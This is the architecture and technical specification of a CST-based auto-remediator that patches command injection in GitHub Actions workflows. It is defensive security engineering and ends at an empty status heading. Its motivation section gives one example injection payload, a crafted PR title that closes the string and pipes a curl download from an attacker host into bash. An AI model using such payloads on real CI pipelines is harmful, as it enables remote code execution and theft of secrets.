




# CST Auto-Remediator Architecture and Technical Specification (Version 1)

This document serves as the canonical technical specification, compiler reference, and research documentation for the **Concrete Syntax Tree (CST) Auto-Remediator** project. It details the design decisions, system architecture, data flows, security models, verification framework, and roadmap for the project as of **Version 1**.

---

## 1. Project Overview

### Research Problem
Continuous Integration and Continuous Deployment (CI/CD) pipelines have become primary targets for supply chain attacks. A particularly severe vulnerability class is **GitHub Actions (GHA) Command Injection**. This occurs when user-controlled, untrusted context data (such as pull request titles, issue comments, branch names, or git commit messages) is evaluated directly inside run scripts without validation or sanitization.

### Motivation: The GitHub Actions Command Injection Threat
In a typical GitHub Actions workflow, steps run commands in a shell environment:
```yaml
- name: Print PR Title
  run: |
    echo "Processing PR: ${{ github.event.pull_request.title }}"
```
If a malicious user submits a pull request with the title `test" && curl http://attacker.com/malicious.sh | bash #`, GitHub Actions evaluates the expression in-line, expanding the run command to:
```bash
echo "Processing PR: test" && curl http://attacker.com/malicious.sh | bash #"
```
This leads to arbitrary remote code execution (RCE) on the runner, exposing secrets, codebases, and credentials.

### Why CST instead of Regular Expressions?
Legacy search-and-replace tools or regular expression (Regex) rewriters are inadequate for securing workflows:
* **Context Blindness**: Regexes cannot distinguish between safe contexts (e.g., single-quoted strings `run: echo '${{ github.event.issue.title }}'` where shells do not evaluate expressions) and unsafe contexts.
* **Format and Layout Corruption**: Regex rewriters modify white space, strip comments, and corrupt custom YAML indentations.
* **Position Ignorance**: Regexes cannot track absolute source character offsets, preventing precise and verifiable file patching.

A **Concrete Syntax Tree (CST)** is a typed, lossless, and character-accurate representation of the source code. It retains 100% of formatting details, including comments, spacing, custom quote styles, and line endings (LF/CRLF), while providing full AST-style traversal and semantic analysis.

### Why Deterministic Remediation?
The remediation engine is strictly deterministic:
* It avoids the unpredictable behavior, latency, and cost of Large Language Models (LLMs).
* It enforces formal compiler transformations: pulling untrusted expression values into step-level environment variables (e.g., `env: ENV_VAR: ${{ ... }}`) and replacing the script expressions with POSIX shell variable references (e.g., `$VAR`).
* Given a specific input workflow, it generates the exact same byte-for-byte output every time, ensuring compilation is reproducible, auditable, and safe.

### Research Objectives
1. **Lossless Remediation**: Secure GHA workflows against command injection automatically.
2. **Format Preservation**: Guarantee that no untouched bytes (including spacing, comments, and empty lines) are modified.
3. **Formal Verification**: Certify every patch with an external verification framework assessing syntax, semantics, format drift, and security completeness.

---

## 2. Compiler Design Philosophy

The architecture of the CST Auto-Remediator is governed by the following core guidelines:

* **Immutable Green CST**: The syntax tree is entirely read-only. Modifying a node returns a new node, leaving original structures untouched. This allows structural sharing and safe multi-pass analysis.
* **Copy-on-Write (CoW)**: When a subtree changes, only nodes on the path from the mutated node up to the tree root are duplicated. All untouched sibling subtrees are structurally shared by reference, minimizing memory allocation.
* **Strict Separation of Concerns**: Compiler stages have exactly one responsibility. Structural parsing, semantic modeling, metadata generation, and security analysis are strictly separated. 
* **Metadata Separation**: AST/Semantic nodes remain pure and syntax-oriented. Metadata facts (such as spans, parent linkages, scope variables, and runner shells) are calculated and cached externally in a `MetadataWrapper` using node object IDs (`id(node)`) as index keys.
* **Post-Serialization Certification**: To guarantee reliability, the verification framework is completely decoupled from the main compiler stages. It treats the serialized output as untrusted and certifies it via five independent read-only verification passes.

---

## 3. System Overview

### High-Level Compilation Pipeline
The compiler translates raw workflow files to safe, certified equivalents through the following pipeline:



### Future System Architecture Integration
Once integrated into the production platform, the compiler will serve as the core engine powering automated APIs, Web UIs, and CI integrations:



---

## 4. Compiler Architecture (Detailed Stage Breakdown)

### Stage 1: Ingest & Parse
* **Purpose**: Safe raw ingestion, UTF-8 decoding, and validation of raw workflow bytes into structured, editable collections.
* **Consumes**: Raw file `bytes`.
* **Produces**: `IngestSuccess` (containing a `ruamel.yaml` CommentedMap/Seq, `FileMetadata`, and raw source string) or `IngestFailure` models.
* **Allowed Dependencies**: `pathlib`, `hashlib`, `ruamel.yaml`, `cst_auto_remediator.models`.
* **Forbidden Responsibilities**: Must NOT assess GHA syntax, inspect security, check shells, or perform transformations.
* **Invariants**: 
  * Strict file size limit (Maximum 2 MB).
  * Defensive recursion limits to reject recursive alias-loops (YAML bombs, maximum 10 aliases).
  * Byte-level line-ending detection (dominant LF vs CRLF).
* **Major Classes**: `FileMetadata`, `IngestSuccess`, `IngestFailure`.
* **Major Files**: [ingest.py](file:///c:/CST/src/cst_auto_remediator/ingest.py), [parser.py](file:///c:/CST/src/cst_auto_remediator/yaml_cst/parser.py).

### Stage 2: Concrete Syntax Tree (CST)
* **Purpose**: Reconstruct the lossless, layout-preserving syntax tree from `ruamel.yaml` structures.
* **Consumes**: Parsed `ruamel.yaml` trees and Stage 1 `FileMetadata`.
* **Produces**: A typed, immutable `YamlDocument` CST.
* **Allowed Dependencies**: `uuid`, `dataclasses`, `yaml_cst.nodes`.
* **Forbidden Responsibilities**: Must NOT extract GHA workflow-specific variables, validate security, or evaluate command taints.
* **Invariants**: All nodes (`YamlNode`) must be completely frozen (`frozen=True` dataclasses) and implement value-based structural equality checks (`structurally_equal`).
* **Responsibilities**: Translate maps, sequences, and scalars into immutable CST classes, preserving line/column coordinates.
* **Major Classes**: `YamlNode`, `YamlDocument`, `YamlMapping`, `YamlSequence`, `YamlKeyValue`, `YamlScalar`, `SourceSpan`.
* **Major Files**: [nodes.py](file:///c:/CST/src/cst_auto_remediator/yaml_cst/nodes.py), [builder.py](file:///c:/CST/src/cst_auto_remediator/yaml_cst/builder.py).

### Stage 3: Semantic Reconstruction
* **Purpose**: Parse raw CST structures into a domain-specific GitHub Actions semantic model.
* **Consumes**: `YamlDocument` CST.
* **Produces**: `SemanticBuildResult` containing the structured `Workflow` model and `Diagnostic` warning/error entries.
* **Allowed Dependencies**: `gha_semantic.nodes`, `gha_semantic.scanner`, `yaml_cst.nodes`.
* **Forbidden Responsibilities**: Must NOT resolve shell capabilities, perform data-flow taint analysis, or execute node transformations.
* **Invariants**: Expression scanning must utilize balanced brace matching with brace-nesting awareness.
* **Responsibilities**: Map CST nodes to `Job`, `Step`, `RunCommand`, and `EnvBinding` nodes. Run schema validations (`GHA001`-`GHA010`).
  * **GHA001**: Workflow root must be a mapping.
  * **GHA002**: Missing 'jobs' section in workflow.
  * **GHA003**: Jobs section must be a mapping.
  * **GHA004**: Job '{job_id}' must be a mapping.
  * **GHA005**: Steps in job '{job_id}' must be a sequence.
  * **GHA006**: Step at index {step_idx} in job '{job_id}' must be a mapping.
  * **GHA007**: Id in step {step_idx} of job '{job_id}' must be a scalar.
  * **GHA008**: Run command in step {step_idx} of job '{job_id}' must be a scalar.
  * **GHA009**: Env block in step {step_idx} of job '{job_id}' must be a mapping.
  * **GHA010**: Env binding in step {step_idx} of job '{job_id}' must have a scalar key and value.
* **Major Classes**: `Workflow`, `Job`, `Step`, `RunCommand`, `EnvBinding`, `ExpressionSite`, `Diagnostic`.
* **Major Files**: [nodes.py](file:///c:/CST/src/cst_auto_remediator/gha_semantic/nodes.py), [scanner.py](file:///c:/CST/src/cst_auto_remediator/gha_semantic/scanner.py), [builder.py](file:///c:/CST/src/cst_auto_remediator/gha_semantic/builder.py).

### Stage 4: Metadata Separation
* **Purpose**: Accumulate positions, environment scopes, and runner shell properties without dirtying AST/Semantic nodes.
* **Consumes**: `Workflow` semantic hierarchy.
* **Produces**: `MetadataWrapper` instance containing cached, resolved metadata providers.
* **Allowed Dependencies**: `gha_metadata.nodes`, `gha_metadata.providers`, `gha_semantic.nodes`.
* **Forbidden Responsibilities**: Must NOT classify security taints (e.g. no "safe/untrusted" labeling) or perform script alterations.
* **Invariants**: Total separation of concerns; metadata objects are mapped to semantic node Python object IDs (`id(node)`) inside the central lookup registry.
* **Responsibilities**: Determine scope-inherited environment tables, evaluate job-level runs-on attributes to determine runner defaults, determine step-declared shells and shell capabilities, and resolve expression stable paths.
* **Major Classes**: `MetadataWrapper`, `MetadataProvider`, `PositionProvider`, `ScopeProvider`, `ShellProvider`, `ExpressionProvider`.
* **Major Files**: [engine.py](file:///c:/CST/src/cst_auto_remediator/gha_metadata/engine.py), [nodes.py](file:///c:/CST/src/cst_auto_remediator/gha_metadata/nodes.py), [providers.py](file:///c:/CST/src/cst_auto_remediator/gha_metadata/providers.py).

### Stage 5: Security Analysis
* **Purpose**: Implement expression risk classification, sink checking, and runner validation rules.
* **Consumes**: `Workflow` model and Stage 4 `MetadataWrapper`.
* **Produces**: `SecurityAnalysisResult` containing classifications and compiler security warnings.
* **Allowed Dependencies**: `gha_analysis.nodes`, `gha_analysis.classifier`, `gha_analysis.validator`, `gha_analysis.diagnostics`.
* **Forbidden Responsibilities**: Must NOT generate variable names, plan mutations, or modify the CST.
* **Invariants**: Analysis decisions must be deterministic. Environment variable taint propagation must recursively resolve nested expressions.
* **Responsibilities**: Analyze context paths (e.g., `github.event.issue.title` as `UNTRUSTED`), check shell/runner support, detect shell quoting states, and check script command sinks (`eval`, command substitution).
  * **ANA001**: Unknown expression source context (Warning).
  * **ANA002**: Unsupported step shell environment (Error).
  * **ANA003**: Unsupported block scalar format (Warning).
  * **ANA004**: Unsafe expression reaches shell command execution sink (Error).
  * **ANA005**: Safe expression (Warning/Info).
* **Major Classes**: `SecurityAnalysisResult`, `ExpressionClassification`, `AnalysisStatistics`.
* **Major Files**: [analyzer.py](file:///c:/CST/src/cst_auto_remediator/gha_analysis/analyzer.py), [classifier.py](file:///c:/CST/src/cst_auto_remediator/gha_analysis/classifier.py), [validator.py](file:///c:/CST/src/cst_auto_remediator/gha_analysis/validator.py), [nodes.py](file:///c:/CST/src/cst_auto_remediator/gha_analysis/nodes.py), [diagnostics.py](file:///c:/CST/src/cst_auto_remediator/gha_analysis/diagnostics.py).

### Stage 6: Mutation Planning
* **Purpose**: Build a plan of mutations for vulnerable steps.
* **Consumes**: `SecurityAnalysisResult` and Stage 4 `MetadataWrapper`.
* **Produces**: `MutationPlan`.
* **Allowed Dependencies**: `gha_transform.nodes`, `gha_transform.namer`.
* **Forbidden Responsibilities**: Must NOT execute changes on CST nodes or serialize code.
* **Invariants**: POSIX-compliant variable names must be collision-free across workflow, job, and step scopes. If an expression is already bound to an env variable in the step scope, reuse it.
* **Responsibilities**: Generate unique uppercase SCREAMING_SNAKE env variable names, append suffix hashes when naming collisions occur, and map replacement string slices.
* **Major Classes**: `MutationPlanner`, `MutationPlan`, `StepMutation`, `SiteReplacement`, `EnvVarEntry`.
* **Major Files**: [planner.py](file:///c:/CST/src/cst_auto_remediator/gha_transform/planner.py), [namer.py](file:///c:/CST/src/cst_auto_remediator/gha_transform/namer.py), [nodes.py](file:///c:/CST/src/cst_auto_remediator/gha_transform/nodes.py).

### Stage 7: Format-Preserving Transformation
* **Purpose**: Apply planned changes to the Green CST using Copy-on-Write techniques and generate the final output bytes.
* **Consumes**: `MutationPlan`, original `ruamel.yaml` root, and original CST `YamlDocument`.
* **Produces**: Mutated CST `YamlDocument`, serialized YAML `bytes`, and `TransformationResult`.
* **Allowed Dependencies**: `gha_transform.transformer`, `gha_transform.serializer`, `gha_transform.rtl`, `yaml_cst.nodes`.
* **Forbidden Responsibilities**: Must NOT recalculate security taint, run validation checks, or touch the file system.
* **Invariants**: Unchanged sibling subtrees must retain python object identity (Structural Sharing). Spacing, layout, and line endings must be preserved.
* **Responsibilities**: Rebuild step mapping nodes to inject `env` keys and update script values, perform right-to-left (RTL) run replacements to prevent offset drifting, synchronize CST mutations back to a `ruamel.yaml` copy, restore blank lines, and output UTF-8 bytes.
* **Major Classes**: `CSTTransformer`, `SerializationContext`, `TransformationResult`.
* **Major Files**: [transformer.py](file:///c:/CST/src/cst_auto_remediator/gha_transform/transformer.py), [serializer.py](file:///c:/CST/src/cst_auto_remediator/gha_transform/serializer.py), [rtl.py](file:///c:/CST/src/cst_auto_remediator/gha_transform/rtl.py).

### Stage 8: Verification & Certification
* **Purpose**: Inspect the generated output bytes and verify compliance with compiler invariants and security contracts.
* **Consumes**: `VerificationContext` (original and output strings, CSTs, and semantic models).
* **Produces**: `VerificationReport` containing certification findings and statistics.
* **Allowed Dependencies**: `gha_verify.verify`, `gha_verify.report`, `gha_verify.passes.*`.
* **Forbidden Responsibilities**: Must NOT modify the YAML output, write files, or interact with compiler mutation stages. It is strictly read-only.
* **Invariants**: Verification must be treated as an independent certification layer outside the compiler pipeline.
* **Responsibilities**: Run five verification passes (Syntax, Semantic, Format, Security, Invariant), flag diagnostic codes (`VER001`-`VER012`), and evaluate invariants (`INV-IDEM`, `INV-DET`, etc.).
* **Major Classes**: `SyntaxPass`, `SemanticPass`, `FormatPass`, `SecurityPass`, `InvariantPass`, `VerificationReport`, `VerificationContext`, `VerificationFinding`, `InvariantResult`.
* **Major Files**: [verify.py](file:///c:/CST/src/cst_auto_remediator/gha_verify/verify.py), [report.py](file:///c:/CST/src/cst_auto_remediator/gha_verify/report.py), [passes/](file:///c:/CST/src/cst_auto_remediator/gha_verify/passes).

---

## 5. Compiler Principles

The correctness of the CST Auto-Remediator relies on eight core compiler design principles:

| Principle | Description | Justification |
| :--- | :--- | :--- |
| **Immutable Green CST** | All syntax nodes are read-only. Modifications return new instances. | Prevents side-effects during multi-pass analyses and enables clean backtracking. |
| **Copy-on-Write (CoW)** | Mutating a node duplicates its ancestors up to the root, leaving others unchanged. | Optimizes memory usage by minimizing copying to modified paths. |
| **Structural Sharing** | Untouched subtrees are shared by reference between original and mutated trees. | Drastically reduces allocation costs and preserves node references. |
| **Metadata Separation** | Spans, scopes, and shells are cached in a wrapper indexed by node object ID (`id(node)`). | Keeps AST and semantic node classes pure, syntax-focused, and free of analysis state. |
| **Semantic Reconstruction** | Walks the raw CST to build a model representing GHA steps and runs. | Decouples structural syntax details from domain-specific GitHub Actions workflow logic. |
| **Deterministic Analysis** | Replaces statistical/LLM heuristics with exact, scope-based semantic rules. | Ensures builds are reproducible, predictable, and verifiable in safety-critical pipelines. |
| **Format Preservation** | Detects spacing, restores blank lines, and preserves quote styles. | Ensures diff output contains only security changes, with no formatting drift. |
| **Verification Framework** | Re-parses and checks the output document through an external test harness. | Certifies compilation correctness and protects against silent compiler regressions. |

---

## 6. Compiler Guarantees (Version 1)

The Version 1 compiler guarantees the following behaviors to downstream systems:

* **Deterministic Output**: For any given input, the compiler will generate the exact same byte-for-byte output, regardless of execution environment.
* **Immutable CST**: CST structures are guaranteed to remain side-effect free.
* **No Regex Rewriting**: Every syntax check and modification utilizes structured tree operations, guaranteeing that context boundaries are respected.
* **No Raw YAML Patching**: Layout is updated through formal serialization synchronization rather than unstructured string inserts.
* **Formatting Preservation**: Indentation, comments, and empty lines are preserved exactly across all unmodified steps.
* **Idempotent Remediation**: Running the remediator on a previously remediated workflow will yield a byte-identical output, preventing redundant modifications.
* **Structural Verification**: Re-parsing is verified to prevent syntax errors.
* **Semantic Verification**: Guarantees that global, job, and step settings remain isomorphic (unchanged).
* **Security Verification**: Confirms that no untrusted expressions remain in the run commands of patched steps and that no prior bailout rules were silently bypassed.

---

## 7. Repository Structure and Dependency Flow

### Repository Organization

```
CST/
├── src/                          # Source directory
│   └── cst_auto_remediator/      # Core package root
│       ├── yaml_cst/             # [Core] Stage 1 & 2: parser, builder, and nodes
│       ├── gha_semantic/         # [Core] Stage 3: semantic model nodes, builder, and scanner
│       ├── gha_metadata/         # [Core] Stage 4: metadata engine and position/scope/shell providers
│       ├── gha_analysis/         # [Core] Stage 5: security analyzer, classifiers, and validators
│       ├── gha_transform/        # [Core] Stage 6 & 7: planners, transformers, and serializers
│       ├── gha_verify/           # [Core] Stage 8: verification orchestrator and passes
│       ├── models.py             # [Core] Shared compiler data types and ReasonCodes
│       ├── pipeline.py           # [Core] Main pipeline orchestrator
│       ├── ingest.py             # [Core] Stage 1 entry point
│       ├── traverse.py           # [Support] Legacy traversal logic (Deprecated)
│       ├── classify.py           # [Support] Legacy classification helper (Deprecated)
│       └── validate.py           # [Support] Legacy validation checks (Deprecated)
├── tests/                        # [Support] Comprehensive automated test suite
├── testing/                      # [Support] Complex integration test cases and scripts
├── scripts/                      # [Support] Maintenance and code regeneration scripts
├── fixtures/                     # [Support] Static test workflow files (.yml) and expected schemas
├── pyproject.toml                # Project metadata and dependency configuration
└── explanation.md                # Project architectural specification
```

### Package Dependency Flow

To maintain strict modularity, compiler packages are organized in a unidirectional dependency graph. No reverse dependencies or circular imports are permitted:



Each package is restricted to importing only from packages positioned above it in the graph. This guarantees that compilation concerns remain isolated.

---

## 8. Data Flow Model

The compiler processes data by transitioning through the following Python objects:

```
  [Bytes] Raw YAML input bytes
     |
     v (Stage 1: ingest.py / parser.py)
  [ParsedDocument] ruamel.yaml CommentedMap / CommentedSeq
     |
     v (Stage 2: builder.py)
  [YamlDocument] Lossless CST representation
     |
     v (Stage 3: gha_semantic/builder.py)
  [Workflow] Domain semantic model
     |
     v (Stage 4: gha_metadata/engine.py)
  [MetadataWrapper] Position, scope, shell, and duplicate provider cache
     |
     v (Stage 5: gha_analysis/analyzer.py)
  [SecurityAnalysisResult] Taint classifications, decisions, and diagnostics
     |
     v (Stage 6: gha_transform/planner.py)
  [MutationPlan] Naming calculations, env entries, and replacement offsets
     |
     v (Stage 7: gha_transform/transformer.py)
  [TransformationResult] Mutated YamlDocument (generated via Copy-on-Write)
     |
     v (Stage 7: gha_transform/serializer.py)
  [Bytes] Formatted, comment-preserved output YAML bytes
     |
     v (Stage 8: gha_verify/verify.py)
  [VerificationReport] Pass/Fail decision, findings list, and invariant results
```

---

## 9. Detailed Execution Walkthrough

To understand the coordination of the stages, trace a workflow containing a single job, a single step, and one vulnerable run command:

### 1. Ingestion
The user passes the following workflow bytes to `remediate_file(path)`:
```yaml
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - run: echo "User message: ${{ github.event.issue.body }}"
```
Stage 1 (`ingest`) validates that the file is under 2 MB, computes the SHA-256 hash, detects the `\n` line ending, and parses the text into a `CommentedMap` using `ruamel.yaml`.

### 2. Concrete Syntax Tree Build
Stage 2 (`build_cst`) maps the `CommentedMap` into a lossless `YamlDocument` object. The `run` scalar is represented as a `YamlScalar` node with a `SourceSpan` recording line index `5`.

### 3. Semantic Reconstruction
Stage 3 (`build_semantic_model`) parses the CST. It identifies the `build` job and its first step. The step's `run` scalar is parsed by the balanced brace expression scanner, extracting an `ExpressionSite` object with `expression_text` set to `"${{ github.event.issue.body }}"` and `start_offset=21`.

### 4. Metadata Mapping
Stage 4 (`MetadataWrapper`) resolves structural metadata:
* `PositionProvider`: Maps path segments `("jobs", "build", "steps", "0", "run")`.
* `ScopeProvider`: Identifies that the step environment scope is empty.
* `ShellProvider`: Resolves the default shell as `bash` (inherited from the `ubuntu-latest` runner).
* `ExpressionProvider`: Registers the expression ID as `jobs.build.steps.0.run.exprs.0`.

### 5. Security Analysis
Stage 5 (`analyze_workflow`) runs the security check:
* It parses the expression path `github.event.issue.body`.
* It detects the `github.event.` prefix and classifies it as `UNTRUSTED` (tainted).
* It checks the shell capabilities for `bash` (which allows environment variable assignments and references).
* Since the expression is unquoted and untrusted, it classifies the site as `AnalysisDecision.REMEDIATE` and issues security warning `ANA004`.

### 6. Mutation Planning
Stage 6 (`MutationPlanner`) checks the analysis results:
* It generates a safe, POSIX-compliant environment variable name for the expression: `GITHUB_EVENT_ISSUE_BODY`.
* It creates a `StepMutation` containing:
  * An `EnvVarEntry` mapping `GITHUB_EVENT_ISSUE_BODY` to the expression text.
  * A `SiteReplacement` substituting characters at offsets `21:52` with `$GITHUB_EVENT_ISSUE_BODY`.

### 7. Transformation and Serialization
Stage 7 (`CSTTransformer`) modifies the step node using CoW:
* It constructs a new `run` `YamlScalar` with the value `echo "User message: $GITHUB_EVENT_ISSUE_BODY"`.
* It inserts a new `env` `YamlKeyValue` block mapping `GITHUB_EVENT_ISSUE_BODY` to `"${{ github.event.issue.body }}"`.
* It recreates the step mapping, the jobs sequence, and the root document, while sharing unchanged siblings.
* `serialize_document` deep-copies the original `ruamel` root, synchronizes the modified nodes, detects layout indents, restores blank lines, and outputs the final bytes:
```yaml
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - env:
          GITHUB_EVENT_ISSUE_BODY: ${{ github.event.issue.body }}
        run: echo "User message: $GITHUB_EVENT_ISSUE_BODY"
```

### 8. Verification and Certification
Stage 8 (`verify_output`) runs the verification passes:
* **SyntaxPass**: Validates that the generated bytes parse successfully under Stage 1 rules.
* **SemanticPass**: Compares the original and remediated structures, confirming that no settings were altered.
* **FormatPass**: Confirms that comments and line endings were preserved.
* **SecurityPass**: Confirms that no active `REMEDIATE` decisions exist in the patched output step.
* **InvariantPass**: Checks that running the remediator on the output results in no changes (Idempotence) and verifies Copy-on-Write boundaries.
* If all passes pass, a `VerificationReport` with decision `PASS` is returned, and the safe workflow is certified.

---

## 10. Security Model and Remediation Scope

### Classification Vocabulary
The security model categorizes GHA expression paths into four trust levels:
1. **Trusted Contexts**: Safe variables that cannot be modified by external users (e.g., `github.repository`, `github.workflow`, `github.sha`, `github.run_id`, `secrets.*`, `vars.*`, `runner.*`).
2. **Untrusted Contexts**: Contexts populated by external, untrusted input (e.g., `github.event.issue.title`, `github.event.pull_request.body`, `github.head_ref`, `github.base_ref`, `inputs.*`, `matrix.*`).
3. **Mixed Contexts**: Expressions combining trusted and untrusted variables (e.g., `github.sha + '-' + github.event.issue.title`). These are treated as `UNTRUSTED`.
4. **Unknown Contexts**: Contexts that cannot be analyzed deterministically (e.g., custom `needs.<job_id>.outputs.<output_id>` or dynamic object structures). These trigger a compiler warning (`ANA001`) and result in a bailout to prevent security gaps.

### Taint Propagation Engine
Taint tracking checks step-level, job-level, and workflow-level environment tables. If a variable is assigned an untrusted expression value, the variable is flagged as tainted:
```yaml
env:
  VULN_VAR: ${{ github.event.issue.title }} # Tainted
steps:
  - run: echo "Value is ${{ env.VULN_VAR }}" # Tainted context path, remediated
```
This is handled recursively by `classify_env_variable`.

### Remediation Scope (What Version 1 Does and Does NOT Remediate)

To prevent breaking workflow execution, Version 1 intentionally restricts its remediation scope:

| Target Context | Remediation Action | Technical Reason |
| :--- | :--- | :--- |
| **Plain Scalar Expressions** | **PATCHED** | Safe to remediate; expression is swapped for a step env variable. |
| **Single-Quoted Expressions** | **SKIPPED** | Evaluated as a literal string by the shell, preventing execution. |
| **Already Remediated Env** | **SKIPPED** | The expression is already bound to an env variable, requiring no action. |
| **Block Scalars (`|`, `>`)** | **BAILED** | Complex multi-line formatting is out of scope for V1. |
| **Composite Actions** | **BAILED** | Multi-file nested step structures are out of scope for V1. |
| **Unsupported Shells** | **BAILED** | Shells other than `bash`, `sh`, `pwsh`, or `powershell` are rejected. |
| **Unsupported Runners** | **BAILED** | Runner configurations that lack a standard default shell are rejected. |
| **Command Injection Sinks** | **BAILED** | Expressions inside script command expansions (e.g. `$(...)`, `` `...` ``) or shell evaluation statements (`eval`) are rejected. |
| **Dynamic Script Generation** | **BAILED** | Multi-stage dynamic command strings are out of scope for V1. |
| **Name Collisions** | **BAILED** | If variable name conflicts cannot be resolved after generating suffix hashes, the compiler bails to avoid overwriting values. |

---

## 11. Verification Framework (Stage 8 Specification)

Stage 8 acts as a separate certification layer that runs outside the main compiler pipeline to verify the serialized output. It prevents compiler bugs or AST corruption from silently introducing regressions.

### Verification Passes



* **Pass 1: SyntaxPass (Syntax and Parse Integrity)**
  * Evaluates if the output bytes are valid YAML.
  * Re-parses the output using Stage 1 constraints to confirm syntax validity.
  * *Diagnostics*: `VER001`. *Invariants*: `INV-LINE`.
* **Pass 2: SemanticPass (Semantic Isomorphism)**
  * Verifies that the workflow semantics are preserved.
  * Confirms that settings like triggers, names, jobs, permissions, and step configurations are identical.
  * Reconstructs the output run command to confirm that the changes match the planned patch.
  * *Diagnostics*: `VER002`. *Invariants*: `INV-SEME`.
* **Pass 3: FormatPass (Layout and Spacing Preservation)**
  * Verifies that comments and line endings are preserved.
  * Checks for comment loss and confirms that anchors, aliases, and merge keys are intact.
  * *Diagnostics*: `VER004`, `VER005`, `VER006`. *Invariants*: `INV-LINE`, `INV-COMM`.
* **Pass 4: SecurityPass (Security Classification)**
  * Runs Stage 5 security analysis on the output to confirm it is secure.
  * Verifies that no patched steps contain remaining `REMEDIATE` decisions.
  * Confirms that steps requiring a `BAILOUT` were not silently marked safe.
  * *Diagnostics*: `VER003`. *Invariants*: `INV-SECR`.
* **Pass 5: InvariantPass (Compiler Boundaries and Invariants)**
  * Verifies that consecutive remediation runs produce identical output (Idempotence).
  * Confirms that repeated runs on the same input yield the same byte layout (Determinism).
  * Verifies structural sharing and Copy-on-Write behavior.
  * *Diagnostics*: `VER007`, `VER008`, `VER009`, `VER010`, `VER011`. *Invariants*: `INV-COW`, `INV-NODE`, `INV-BYTE`, `INV-IDEM`, `INV-DET`.

### Diagnostic Codes Reference (`VER001`-`VER012`)

| Code | Severity | Description | Triggering Condition |
| :--- | :--- | :--- | :--- |
| **VER001** | FAIL | Parse failure | The generated output YAML is syntactically invalid or empty. |
| **VER002** | FAIL | Semantic mismatch | Global trigger, job steps, or step settings differ from the original. |
| **VER003** | FAIL | Security failure | A patched step contains remaining vulnerabilities or a bailout was skipped. |
| **VER004** | FAIL | Formatting failure | Formatting changes (such as modified indents or altered anchors) detected in untouched sections. |
| **VER005** | WARNING | Comment loss | Comments were modified or dropped in the output. |
| **VER006** | WARNING | Line ending change | The dominant line-ending convention (LF vs CRLF) was not preserved. |
| **VER007** | FAIL | CoW violation | A mutated CST node shares its python object identity with the original node. |
| **VER008** | FAIL | Structural sharing failure | An untouched sibling node did not preserve its python object identity. |
| **VER009** | FAIL | Idempotence failure | Re-running the remediator on the output modified its contents. |
| **VER010** | FAIL | Determinism failure | Repeated runs on identical files generated divergent bytes. |
| **VER011** | FAIL | Unexpected mutation | A node was modified outside the planned patch scope. |
| **VER012** | FAIL | Internal verifier error | Stage 8 encountered an unhandled exception during verification. |

---

## 12. Testing Strategy

The test suite covers both unit and integration verification. As of Version 1, **199 tests pass successfully** with zero failures.

### Test Categories

* **Parser Tests**: Validate Stage 1 ingestion limits, encoding validation, and YAML bomb protections.
* **CST Structural Tests**: Validate Stage 2 node creation, structural equality checks, and copy-on-write transformations.
* **Semantic Builder Tests**: Validate semantic mapping correctness and checking of structural diagnostics GHA001-GHA010.
* **Metadata Provider Tests**: Verify step scopes, position spans, default shells, and duplicate expression tracking.
* **Security Analyzer Tests**: Verify expression trust classification, taint propagation, shell checks, and security warnings ANA001-ANA005.
* **Planner and Transformer Tests**: Verify that mutation plans generate safe environment variable names and resolve naming collisions.
* **Serializer Tests**: Verify that formatting, line endings, comments, and spacing are preserved.
* **Verification Tests**: Verify that Stage 8 detects syntax mismatches, comment drift, structural changes, and security regressions.
* **Edge Case and Regression Tests**: Test edge cases (such as merge keys, CRLF line endings, and duplicate expressions) to prevent regression.
* **Massive Workflow Tests**: Test the pipeline on large, real-world GitHub Action workflows to ensure performance and correctness.

---

## 13. Current Status (Version 1)

### Implemented Capabilities
